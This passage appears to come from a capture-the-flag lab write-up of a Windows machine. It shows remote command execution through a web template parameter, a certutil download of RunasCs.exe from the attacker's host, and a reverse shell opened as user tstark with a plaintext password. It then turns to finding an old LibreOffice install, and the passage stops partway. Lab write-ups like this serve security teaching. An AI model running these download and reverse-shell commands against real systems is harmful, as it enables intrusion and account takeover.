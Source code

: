 We test if we can get remote code execution with the following command:
```console
$ curl http://10.10.11.3/templates/cassiopeia/error.php?bashee=whoami
office\web_account
```

Looks like we have command execution, so lets try to get a reverse shell. We can try to get a shell as `tstark` directly by using [RunasCs.exe](https://github.com/antonioCoco/RunasCs) since we know the password of this user on the machine. We will start a Python webserver on our host and run the following commands to download our executable and get a shell.

```bash
certutil -f -urlcache http%3A%2F%2F10.10.14.7%3A8888%2FRunasCs.exe RunasCs.exe

.%5CRunasCs.exe tstark playboy69 cmd.exe -r 10.10.14.7%3A4444
```

We start a `pwncat` listener to catch our shell. Afterwards we get a shell as `tstark` and can get the user flag.
```console
$ pwncat-cs -m windows -lp 4444
(remote) tstark@DC:C:\Windows\system32$ cd C:\Users\tstark\Desktop
(remote) tstark@DC:C:\Users\tstark\Desktop$ dir
Directory: C:\Users\tstark\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---         7/16/2024  12:58 PM             34 user.txt
```

### Access as PPotts
Looking at the installed applications, we notice `LibreOffice 5` is installed.

```console
(remote) tstark@DC:C:\Program Files$ dir
Directory: C:\Program Files

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         1/22/2024   9:58 AM                Common Files
d-----         1/25/2024  12:20 PM                Internet Explorer
d-----         1/17/2024   1:26 PM                LibreOffice 5
d-----          5/2/2023   5:22 PM                Microsoft OneDrive
d-----          5/8/2021   1:20 AM                ModifiableWindowsApps
d-----         4/14/2023   3:22 PM                Npcap
d-----         4/12/2023   4:30 PM                Oracle
d-----         2/14/2024   2:18 AM                VMware
d-----         4/17/2023   3:35 PM                Windows Defender
d-----         1/25/2024  12:20 PM                Windows Defender Advanced Threat Protection
d-----         1/25/2024  12:20 PM                Windows Mail
d-----         1/25/2024  12:20 PM                Windows Media Player
d-----          5/8/2021   2:35 AM                Windows NT
d-----          3/2/2022   7:58 PM                Windows Photo Viewer
d-----          5/8/2021   1:34 AM                WindowsPowerShell
d-----         4/14/2023   3:23 PM                Wireshark
```
Older versions of `LibreOffice` usually have vulnerabilities that allow for code execution if a user opens a malicious document. To find the exact version we can execute the following command.
